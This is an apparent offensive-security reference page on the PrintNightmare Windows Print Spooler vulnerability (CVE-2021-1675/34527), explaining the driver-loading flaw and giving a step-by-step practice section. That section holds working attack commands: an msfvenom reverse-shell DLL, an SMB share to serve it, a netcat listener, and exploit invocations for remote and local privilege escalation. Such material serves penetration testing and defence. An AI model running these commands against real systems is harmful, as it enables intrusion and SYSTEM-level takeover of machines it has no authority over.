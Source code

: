 ```yaml
---
description: CVE-2021-1675 & CVE-2021-34527
---
```


# PrintNightmare

## Theory

### The print spooler

The Print Spooler is a Microsoft built-in service that manages printing jobs. It is enabled by default and runs within the `SYSTEM` context.

3 RPC protocols are registered by the spooler:

* **MS-RPRN:** Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server synchronously.
* **MS-PAR:** Microsoft’s Print System Asynchronous Remote Protocol. It has the same functionalities as MS-RPRN, but works asynchronously.
* **MS-PAN:** Microsoft’s Print System Asynchronous Notification Protocol. It is used to receive print status notifications from a print server and to send server-requested responses to those notifications back to the server.

### PrintNightmare

"PrintNightmare" refers to an RCE (Remote Command Execution) vulnerability. If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation) context.&#x20;

In a detailed blogpost ([here](https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/)), Cyberwatch describes that the vulnerability lies in the functions allowing remote driver installation by users, `RpcAddPrinterDriverEx` and `RpcAddPrinterDriver`:

1. The attacker stores the driver DLL file on a SMB share reachable from the server.
2. The client creates a [`DRIVER_INFO_2`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/39bbfc30-8768-4cd4-9930-434857e2c2a2) object containing the path to the attacker's DLL and passes it into the DRIVER\_CONTAINER object.
3. The client calls [`RpcAddPrinterDriverEx`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) with the `DRIVER_CONTAINER` to load the attacker's DLL into the server's dynamic library and with multiple bit values within the `dwFileCopyFlags` in order to bypass the `SeLoadDriverPrivilege` privilege verification by the server.
4. The attacker's DLL is executed on the server within `SYSTEM` context.&#x20;

### Constraints

As [@StanHacked](https://twitter.com/StanHacked/) stated on Twitter, there are some constraints depending on the protocol used for the attack.

#### MS-RPRN conditional tree

<figure><img src="../../../.gitbook/assets/PrintNightmare_MS-RPRN.jpeg" alt=""><figcaption><p><a href="https://twitter.com/StanHacked/status/1410929974358515719">https://twitter.com/StanHacked/status/1410929974358515719</a></p></figcaption></figure>

#### MS-PAR conditional tree

<figure><img src="../../../.gitbook/assets/PrintNightmare_MS-PAR.jpeg" alt=""><figcaption><p><a href="https://twitter.com/StanHacked/status/1412060814488608773">https://twitter.com/StanHacked/status/1412060814488608773</a></p></figcaption></figure>

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From Unix-like systems, the attack can be conducted as follows

1. Check if the target's RPC pipes are available: Impacket's [rpcdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py)
2. Generate a DLL payload: [msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)
3. Host an SMB server from which the DLL can be fetched: Impacket's [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
4. Exploit PrintNightmare: CVE-2021-1675.py ([MS-RPRN abuse](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare), [MS-PAR abuse](https://github.com/cube0x0/CVE-2021-1675/blob/main/SharpPrintNightmare/CVE-2021-1675.py))
5. Profit from the DLL being executed by the target

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># Check open pipes
<strong>rpcdump.py @192.168.1.16 | egrep 'MS-RPRN|MS-PAR'
</strong><strong>
</strong><strong># Create a DLL payload (reverse shell in this example)
</strong>msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -o /workspace/smb/remote.dll

# Host a SMB share 
smbserver.py -smb2support "WHATEVERNAME" /workspace/smb/

# Start the listener (for the reverse shell)
nc -lvnp $LOCAL_PORT

# Run the exploit
CVE-2021-1675.py $DOMAIN/$USER:$PASSWORD@$TARGET_IP '\\$LOCAL_IP\$SHARE\remote.dll'
</code></pre>
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the attack can be conducted in an LPE or RCE context with the following PoC: [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare).

{% hint style="warning" %}
_At the time of writing, October 7th 2022, the Windows abuse technique has not been tested by THR's authors._
{% endhint %}

{% code overflow="wrap" %}
```bash
#LPE
C:\SharpPrintNightmare.exe C:\addCube.dll

#RCE using existing context
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\$LOCAL_IP\smb\addCube.dll' '\\$TARGET_IP' $DOMAIN $USER $PASSWORD
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://cyberwatch.fr/actualite/cve-2021-34527-comment-identifier-et-neutraliser-la-vulnerabilite-printnightmare/" %}

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}
